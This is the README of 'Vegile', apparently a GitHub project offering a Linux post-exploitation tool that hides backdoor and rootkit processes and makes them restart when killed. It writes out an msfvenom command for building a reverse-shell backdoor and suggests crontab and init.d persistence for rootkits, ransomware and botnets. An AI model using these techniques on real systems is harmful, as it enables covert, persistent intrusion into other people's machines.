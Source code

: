 # Vegile - Ghost In The Shell

[![Version](https://img.shields.io/badge/Vegile-Beta-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-Stable-brightgreen.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-Linux-orange.svg)]()

**Vegile** is a tool for **Post exploitation** Techniques in linux. Post Exploitation techniques will ensure that we maintain some level of **access and can potentially** lead to **deeper** footholds into our targets **trusted network**.


<img src="https://user-images.githubusercontent.com/17976841/34869598-fd7cf00e-f7b9-11e7-950e-a4cb61364c03.png" ></img>

### Donate
- If this project is very helpful to your penetration testing and u want to support me , you can give me a cup of coffee :)
- [![Donation](https://img.shields.io/badge/bitcoin-donate-yellow.svg)](https://blockchain.info/id/address/1NuNTXo7Aato7XguFkvwYnTAFV2immXmjS)



## :book: How it works

This tool will set up your ***backdoor/rootkits***
when backdoor is already setup it will be ***hidden*** your specific process,***unlimited*** your ***session*** in metasploit and ***transparent***. Even when it is **killed**, it will **re-run again**. There will always be a procces which will **run** another process, so we can assume that this procces is **unstopable** like a **Ghost in The Shell**

#### READ THIS

- Right now I just tested backdoor with msfvenom command using reverse_shell and my manual backdoor for linux [ **it works** ] or you can use thefatrat for to help you create a simple backdoor
- **msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=IP LPORT=PORT -b "\x00" -f elf -o NAME_BACKDOOR**
- for hidden process you can use for **rootkits,backdoor,ransom and botnet** { sh,python,perl,exe and binary }.
- Victim  target all linux distribution include ( **base32** and **base64** in their system ) 
- For get persistence you can use **crontab and xinit.d** into your backdoor  
- this is just a simple algorithm how we can maintain our sessions and backdoor/rootkits , **you can explore this**



## Getting Started
1. ```git clone https://github.com/Screetsec/Vegile.git```
2. ```cd Vegile```
3. ```chmod +x Vegile```

## Using Vegile
Running Vegile without any parameters will give a helpful list of the most common options. you can use command : 

- Vegile -i / --inject  **[backdoor/rootkit]**
- Vegile -u / --unlimited **[backdoor/rootkit]**
- Vegile -h / --help 

## Demo Video

- [![Vegile demo](https://user-images.githubusercontent.com/17976841/34897525-f91afc1a-f820-11e7-9f85-bb0a5f00b4e3.JPG)](https://www.youtube.com/watch?v=oYyH1G3Lsvo "Vegile Demo ")

- [![Vegile demo](https://user-images.githubusercontent.com/17976841/34897524-f887a258-f820-11e7-9ceb-a39da5be6fdf.JPG)](https://www.youtube.com/watch?v=imlh8l5w56k "Vegile Demo ")

## :octocat: Credits

- Thanks to allah 
- Dracos Linux from Scratch Indonesia ( Awesome Penetration os ), you can see in http://dracos-linux.org/ 
- Bash.ID , WingkoColi , Reversing ID , IndoXploit , Backbox Indonesia , Depok Cyber Security and Indonesia Backtrack Team .
- Offensive Security for the awesome OS ( http://www.offensive-security.com/ )
- http://www.kali.org/ Kali Linux
- gianlucaborello to give a reference and some idea [ https://sysdig.com/blog/hiding-linux-processes-for-fun-and-profit/ ] 
- And another open sources tool in github



## Disclaimer

***Note: modifications, changes, or alterations to this sourcecode is acceptable, however, any public releases utilizing this code must be approved by writen this tool ( Edo maland ).***
